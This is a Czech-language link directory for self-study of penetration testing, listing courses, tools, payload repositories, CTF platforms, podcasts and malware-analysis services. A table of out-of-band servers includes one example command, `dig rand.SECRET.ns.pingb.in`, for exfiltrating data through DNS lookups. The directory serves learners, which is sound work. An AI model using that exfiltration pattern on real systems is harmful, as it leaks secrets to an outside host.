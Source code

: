 # Rozcestník pro samostudium kybernetické bezpečnosti

Užitečné odkazy pro oblast kybernetické bezpečnosti, zejména penetračního testování.
Jako gitbook dostupné na [chovanecadam.gitbook.io/cybersecurity/](https://chovanecadam.gitbook.io/cybersecurity/),
gitový repozitář na [github.com/chovanecadam/cybersecurity](https://github.com/chovanecadam/cybersecurity).

Kromě odkazů sem budu přidávat i vlastní poznámky, ale to nejspíš jen sporadicky[.](https://youtu.be/dQw4w9WgXcQ)

## Interaktivní tutoriály a kurzy

* [PortsWigger Web Security Academy](https://portswigger.net/web-security)
* [Hacker 101](https://www.hacker101.com/)
* [Open Security Training](https://www.opensecuritytraining.info/)
* [Cybrary](https://www.cybrary.it/)
* [Purple Academy](https://academy.picussecurity.com/home)
* [Let's Defend](https://app.letsdefend.io/academy/)

## OWASP

* [OWASP Top Ten Project](https://owasp.org/www-project-top-ten/)
* [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
* [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/)

## Toolkit

* [Kali Linux](https://www.kali.org/), [ParrotOS Security](https://www.parrotsec.org/)
* [Kali Tools](https://tools.kali.org/tools-listing)
* [CyberChef](https://gchq.github.io/CyberChef)

## GitHub goodies

* [SecLists](https://github.com/danielmiessler/SecLists)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [PenetrationTesting](https://github.com/wtsxDev/Penetration-Testing)

## Cheatsheets, návody, knihy

* [HackTricks](https://book.hacktricks.xyz/)
* [HackSplaining](https://www.hacksplaining.com/)
* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
* [GTFOBins](https://gtfobins.github.io/)

## Videa, konference, YouTube

* [defcon.org](https://www.youtube.com/user/DEFCONConference/playlists)
* [BlackHat](https://www.youtube.com/user/BlackHatOfficialYT)
* [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)
* [VbScrub](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)
* [SANS konference](https://www.sans.org/cyber-security-summit/archives/)
* [SANS webcasty](https://www.sans.org/webcasts/archive/2020)
* [Wild West Hacking Fest](https://www.youtube.com/channel/UCef0TWni8ghLcJphdmDBoxw/videos)
* [Bugcrowd](https://www.youtube.com/c/Bugcrowd/videos)
* [VirSecCon2020](https://www.youtube.com/watch?v=B3Udl86Zu20&t=8s)
* [InstallFest](https://www.youtube.com/channel/UCivNQFv0lsPN3kEy2wKPOhw)
* [Hack In The Box Security Conference](https://www.youtube.com/channel/UC0BJVNTIEbG8CLG-xVVWJnA)
* [Nahamsec](https://www.youtube.com/c/Nahamsec/videos)
* [HackTheBox](https://www.youtube.com/c/HackTheBox)
* [PortSwigger](https://www.youtube.com/c/PortSwiggerTV/videos)
* [John Hammond](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw)
* [Hacksplained](https://www.youtube.com/c/Hacksplained/videos)

## Podcasty

* [Malicious Life](https://malicious.life/)
* [Security Now](https://twit.tv/shows/security-now)
* [Risky Business](https://risky.biz/)
* [Darknet Diaries](https://darknetdiaries.com/)
* [CYBER](https://podcasts.apple.com/us/podcast/cyber/id1441708044)
* [The CyberWire Daily](https://thecyberwire.com/podcasts/daily-podcast)
* [Hacking Humans](https://thecyberwire.com/podcasts/hacking-humans)
* [MalwareTech Podcast](https://www.youtube.com/channel/UCLDnEn-TxejaDB8qm2AUhHQ)
* [The PRIVACY, SECURITY, & OSINT Show](https://inteltechniques.com/podcast.html)
* [Naked Security Podcast](https://podcasts.apple.com/us/podcast/naked-security/id171426676)

## Offline virtuálky a sandboxy pro hackování

* [OWASP Juice Shop Project](https://owasp.org/www-project-juice-shop/)
* [Damn Vulnerable Web Application](https://github.com/ethicalhack3r/DVWA)
* [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)
* [Metasploitable 3](https://github.com/rapid7/metasploitable3)
* [WebGoat](https://github.com/WebGoat/WebGoat)
* [vulnhub.com](https://www.vulnhub.com/)
* [OWASP Mutillidae II](https://github.com/webpwnized/mutillidae)

## On-line cvičení a CTFs

* [Kybersoutěž](https://www.kybersoutez.cz/)
* [Hack The Box](https://hackthebox.eu)
* [TryHackMe](https://tryhackme.com/)
* [SafeWeb.cz](https://www.safeweb.cz/)
* [HackEDU](https://www.hackedu.com/)
* [Hack This Site](https://hackthissite.org)
* [hackertest.net](https://hackertest.net)
* [root-me.org](https://root-me.org/?lang=en)
* [Secure Code Warrior](https://portal.securecodewarrior.com/)
* [ctftime.org](https://ctftime.org/)
* [thecatch.cz](https://www.thecatch.cz/)
* [attackdefense.com](https://attackdefense.com/)
* [237ctf](https://247ctf.com/)
* [CyberSecLabs](https://www.cyberseclabs.co.uk/)
* [Over The Wire](https://overthewire.org/)
* [defendtheweb.net](https://defendtheweb.net)

## Bug Bounty platformy

* [Hacker One](https://www.hackerone.com/)
* [BugCrowd](https://www.bugcrowd.com/)
* [Intigriti](https://www.intigriti.com/)

## Malware analysis

| název                                    | popis                                     |
| ---------------------------------------- | ----------------------------------------- |
| [VirusTotal](https://www.virustotal.com) | Analýza malwaru, hashe, URL, pcapu        |
| [AnyRun](https://app.any.run/)           | Interaktivní analýza malwaru              |
| [Triage](https://tria.ge/)               | Hybridní analýza malwaru                  |
| [VMRay](https://www.vmray.com)           | dynamická analýza malwaru, placená služba |
| [Hybrid Analysis](https://hybrid-analysis.com/) | dynamická analýza malwaru          |

## Temporary domény, url, emaily, OOB servery

| název                                   | popis                                                             |
| --------------------------------------- | ----------------------------------------------------------------- |
| [webhook.site](https://webhook.site/)   | asi nejlepší možnost, až 500 requestů                             |
| [pingb.in](http://pingb.in)             | data exiltration pomocí DNS lookup: `dig rand.SECRET.ns.pingb.in` |
| [RequestBin.net](http://requestbin.net) | veřejné URL, ukazuje HTTP hlavičky, POST parametry, GET parametry |

## Blogy

* [CRYPTSUS](https://cryptsus.com/blog/)
